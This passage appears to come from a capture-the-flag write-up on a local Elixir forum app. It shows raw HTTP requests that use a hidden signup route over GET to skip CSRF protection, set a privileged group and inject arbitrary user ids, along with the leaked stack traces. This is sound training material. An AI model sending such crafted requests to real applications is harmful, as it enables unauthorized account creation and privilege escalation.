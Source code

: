 ```http
<p class="mesg">An admin already exists</p>
```

Analyzing the verbose errors leaked by the application, we can notice that a `/forum/signup.php` route exists in the application, even though it is never used from the GUI. Passing to the routes the same POST parameters from  `/forum/newuser.php` we get some errors, however, when passing the same using a GET HTTP Method, we manage to get the path working properly (without having to provide a valid CSRF).

```http
GET /forum/signup.php?name=meethack&password=meethack&password_confirmation=meethack&group=2 HTTP/1.1
Host: localhost:4000
Cookie: _gilroy_key=SFMyNTY.g3QAAAADbQAAAAtfY3NyZl90b2tlbm0AAAAYT2lZZWhxaklZUDZmM0cteXJfR3hZM1I0bQAAAAlwb3N0ZXJfaWRtAAAAJDMxYTY5MWZiLTFlYmQtNDk4MS04MmZmLWViZmQ0ODNmYTRlY20AAAAJdGlja2V0X2lkYQE.vfNoRjajUiw1rsAKIq6Rf1Zaa2rdWaYzRybGpIhfxrc

--- RESPONSE ---

HTTP/1.1 200 OK
<p class="mesg">An admin already exists</p>
```

We can also provide arbitrary id values:
```http
GET /forum/signup.php?name=non-existing2&password=meethack&password_confirmation=meethack&id=573972f1-0846-48ca-b99d-e1c654b0a331 HTTP/1.1
Host: localhost:4000
Cookie: _gilroy_key=SFMyNTY.g3QAAAADbQAAAAtfY3NyZl90b2tlbm0AAAAYT2lZZWhxaklZUDZmM0cteXJfR3hZM1I0bQAAAAlwb3N0ZXJfaWRtAAAAJDMxYTY5MWZiLTFlYmQtNDk4MS04MmZmLWViZmQ0ODNmYTRlY20AAAAJdGlja2V0X2lkYQE.vfNoRjajUiw1rsAKIq6Rf1Zaa2rdWaYzRybGpIhfxrc


--- RESPONSE ---

Exception:

    ** (throw) {:db_unique, "posters.id"}
        (gilroy 0.1.0) lib/gilroy/miniforum/db.ex:172: Gilroy.Miniforum.Db.step/4
        (gilroy 0.1.0) lib/gilroy/miniforum/db.ex:154: anonymous fn/2 in Gilroy.Miniforum.Db.step/2
        (telemetry 1.2.1) /app/deps/telemetry/src/telemetry.erl:321: :telemetry.span/3
        (gilroy 0.1.0) lib/gilroy/miniforum/db.ex:72: Gilroy.Miniforum.Db.ins/3
        (gilroy 0.1.0) lib/gilroy_web/controllers/forum/poster_controller.ex:95: anonymous fn/2 in GilroyWeb.Forum.PosterController.make_poster/2
        (gilroy 0.1.0) lib/gilroy_web/controllers/forum/miniforum.ex:33: anonymous fn/2 in GilroyWeb.Miniforum.update_mf_db/2
        (gilroy 0.1.0) lib/gilroy/tickets.ex:67: anonymous fn/2 in Gilroy.Tickets.with_locked_ticket/2
        (telemetry 1.2.1) /app/deps/telemetry/src/telemetry.erl:321: :telemetry.span/3
        (gilroy 0.1.0) lib/gilroy/tickets.ex:66: anonymous fn/2 in Gilroy.Tickets.with_locked_ticket/2
        (ecto_sql 3.11.0) lib/ecto/adapters/sql.ex:1358: anonymous fn/3 in Ecto.Adapters.SQL.checkout_or_transaction/4
        (db_connection 2.6.0) lib/db_connection.ex:1710: DBConnection.run_transaction/4
        (gilroy 0.1.0) lib/gilroy_web/controllers/forum/miniforum.ex:30: GilroyWeb.Miniforum.update_mf_db/2
        (gilroy 0.1.0) lib/gilroy_web/controllers/forum/poster_controller.ex:81: GilroyWeb.Forum.PosterController.make_poster/2
        (gilroy 0.1.0) lib/gilroy_web/controllers/forum/poster_controller.ex:33: GilroyWeb.Forum.PosterController.create/2
        (gilroy 0.1.0) lib/gilroy_web/controllers/forum/poster_controller.ex:1: GilroyWeb.Forum.PosterController.action/2
        (gilroy 0.1.0) lib/gilroy_web/controllers/forum/poster_controller.ex:1: GilroyWeb.Forum.PosterController.phoenix_controller_pipeline/2
        (phoenix 1.7.10) lib/phoenix/router.ex:432: Phoenix.Router.__call__/5
```